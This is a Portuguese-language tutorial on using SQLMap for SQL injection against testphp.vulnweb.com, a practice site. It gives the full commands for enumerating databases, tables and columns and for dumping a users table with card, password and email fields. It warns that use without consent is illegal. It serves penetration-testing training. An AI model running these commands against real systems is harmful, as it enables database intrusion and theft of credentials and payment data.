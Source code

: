# Tutorial SQLMap - Extração de Dados de um Banco de Dados

O SQLMap é uma ferramenta de teste de penetração que automatiza a detecção e exploração de vulnerabilidades de injeção SQL em aplicativos da web. Neste tutorial, vamos explorar como usar o SQLMap para extrair dados de um banco de dados em um site de teste vulnerável.

**Nota importante: O uso do SQLMap em alvos sem consentimento prévio é ilegal e antiético. Certifique-se de obter permissão adequada antes de realizar qualquer teste de penetração.**

## Passo 1: Preparação

Antes de começarmos, certifique-se de que você tenha o SQLMap instalado. Você pode obtê-lo em [https://sqlmap.org/](https://sqlmap.org/).

## Passo 2: Identificação de uma Vulnerabilidade

Suponhamos que você já tenha identificado uma possível vulnerabilidade de injeção SQL em um site de teste, especificamente na URL `http://testphp.vulnweb.com/artists.php?artist=3`. Vamos usar essa URL como exemplo.

## Passo 3: Enumeração de Bancos de Dados

O primeiro passo é descobrir quais bancos de dados estão disponíveis no sistema alvo. Para fazer isso, use o seguinte comando:

```shell
sqlmap -u http://testphp.vulnweb.com/artists.php\?artist=\3 --dbs
```


- `-u`: Especifica a URL de destino.
- `--dbs`: Indica que queremos enumerar bancos de dados.


A saída deste comando listará os bancos de dados disponíveis.

![resultado 1](https://i.ibb.co/4K2SJWp/resultado-comando-1.png)


## Passo 4: Enumeração de Tabelas

Após identificar o banco de dados de interesse (por exemplo, `acuart`), o próximo passo é enumerar as tabelas dentro desse banco de dados. Use o seguinte comando:

```shell
sqlmap -u http://testphp.vulnweb.com/artists.php\?artist=\3 -D acuart --tables
```

- `-D`: Especifica o banco de dados alvo.
- `--tables`: Indica que queremos enumerar tabelas.

A saída deste comando listará as tabelas disponíveis no banco de dados.
![resultado 2](https://i.ibb.co/R9s72xs/resultado-comando-2.png)


## Passo 5: Enumeração de Colunas

Depois de identificar a tabela de interesse (por exemplo, `users`), podemos enumerar as colunas dentro dessa tabela. Use o seguinte comando:

```shell
sqlmap -u http://testphp.vulnweb.com/artists.php\?artist=\3 -D acuart -T users --columns
```


- `-T`: Especifica a tabela alvo.
- `--columns`: Indica que queremos enumerar colunas.

A saída deste comando listará as colunas disponíveis na tabela.

![resultado 2](https://i.ibb.co/jVzn3f6/resultado-3.png)


## Passo 6: Extração de Dados

Agora que sabemos quais colunas queremos extrair (por exemplo, `name`, `address`, `cc`, `email`, `pass`, `phone`, `uname`), podemos usar o seguinte comando para extrair os dados:

```shell
sqlmap -u http://testphp.vulnweb.com/artists.php\?artist=\3 -D acuart -T users -C name,address,cc,email,pass,phone,uname --dump
```

- `-C`: Especifica as colunas a serem extraídas.
- `--dump`: Solicita que os dados da tabela sejam extraídos.

A saída deste comando exibirá os dados das colunas especificadas.

![resultado 2](https://i.ibb.co/NTJDnGP/resultado-4.png)


## Conclusão

O SQLMap é uma ferramenta poderosa para testar vulnerabilidades de injeção SQL em aplicativos da web e automatizar a extração de dados de bancos de dados. Certifique-se sempre de usar o SQLMap de forma responsável e ética, obtendo permissão adequada antes de realizar qualquer teste de penetração.
